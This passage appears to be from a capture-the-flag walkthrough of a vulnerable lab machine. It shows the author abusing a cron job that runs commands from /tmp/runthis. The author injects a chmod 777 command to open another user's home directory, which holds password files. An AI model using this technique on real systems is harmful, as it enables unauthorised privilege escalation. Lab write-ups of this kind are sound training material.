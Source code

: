 ```bash
-rwxr-xr-x. 1 eezeepz eezeepz 504400 Nov 17  2015 xfs_repair
-rwxr-xr-x. 1 eezeepz eezeepz  13712 Nov 17  2015 ypdomainname
-rwxr-xr-x. 1 eezeepz eezeepz     62 Nov 17  2015 zcat
-rwxr-xr-x. 1 eezeepz eezeepz  47520 Nov 17  2015 zic
```

Dang, tons of crap in here. But hey, there's another `notes.txt`, let's see what this one says:

```bash
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```

Okay cool! So basically we can run `chmod`, `df`, `cat`, `echo`, `ps`, `grep`, and `egrep` as Jerry.. whose username is `admin` on the box itself.

Following his directions, we'll create a file called `runthis` in `/tmp`... Inside of it we can put one of those binary commands.

Looking at our options, I think our best bet would be to use `chmod` to allow us access to Jerry's home directory. We can do this via:

```bash
echo "/home/admin/chmod 777 /home/admin" >> /tmp/runthis
```

And after waiting a minute or so, we can see the following inside of cronresult:

```bash
executing: /home/admin/chmod 777 /home/admin
```

Cool! Let's go take a look:

```bash
ls -la /home/admin
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19  2015 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rw-r--r--. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rw-r--r--. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rw-r--r--. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxr-xr-x  1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x  1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r--  1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r--  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r--  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x  1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x  1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x  1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x  1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```
